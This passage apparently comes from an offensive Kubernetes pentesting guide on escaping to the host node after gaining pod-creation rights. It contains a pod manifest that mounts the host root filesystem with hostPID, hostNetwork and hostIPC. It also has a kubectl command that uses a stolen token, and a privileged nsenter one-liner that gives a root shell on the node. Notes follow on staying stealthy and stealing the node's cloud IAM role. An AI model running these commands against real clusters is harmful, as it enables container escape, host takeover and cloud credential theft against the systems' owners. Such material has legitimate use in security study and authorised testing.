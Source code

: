 ```yaml:super_privs.yaml
      volumeMounts:
        - mountPath: /host
          name: host-volume
  restartPolicy: Never # we want to be intentional about running this pod
  hostIPC: true # Use the host's ipc namespace https://www.man7.org/linux/man-pages/man7/ipc_namespaces.7.html
  hostNetwork: true # Use the host's network namespace https://www.man7.org/linux/man-pages/man7/network_namespaces.7.html
  hostPID: true # Use the host's pid namespace https://man7.org/linux/man-pages/man7/pid_namespaces.7.htmlpe_
  volumes:
    - name: host-volume
      hostPath:
        path: /
```

Create the pod with:

```bash
kubectl --token $token create -f mount_root.yaml
```

One-liner from [this tweet](https://twitter.com/mauilion/status/1129468485480751104) and with some additions:

```bash
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```

Now that you can escape to the node check post-exploitation techniques in:

#### Stealth

You probably want to be **stealthier**, in the following pages you can see what you would be able to access if you create a pod only enabling some of the mentioned privileges in the previous template:

- **Privileged + hostPID**
- **Privileged only**
- **hostPath**
- **hostPID**
- **hostNetwork**
- **hostIPC**

_You can find example of how to create/abuse the previous privileged pods configurations in_ [_https://github.com/BishopFox/badPods_](https://github.com/BishopFox/badPods)

### Pod Create - Move to cloud

If you can **create** a **pod** (and optionally a **service account**) you might be able to **obtain privileges in cloud environment** by **assigning cloud roles to a pod or a service account** and then accessing it.\
Moreover, if you can create a **pod with the host network namespace** you can **steal the IAM** role of the **node** instance.
